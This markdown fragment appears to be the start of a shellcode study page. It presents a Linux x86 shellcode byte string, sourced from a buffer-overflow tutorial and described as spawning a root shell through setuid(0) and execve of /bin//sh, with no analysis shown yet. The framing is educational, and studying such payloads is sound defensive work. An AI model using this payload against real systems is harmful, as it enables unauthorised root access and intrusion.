 ## Shellcode analysis case 1

----

#### Shellcode - Spawns a root shell on Linux : [source](https://www.tenouk.com/Bufferoverflowc/Bufferoverflow6.html) 
```
\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2\x52
\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89
\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80
```

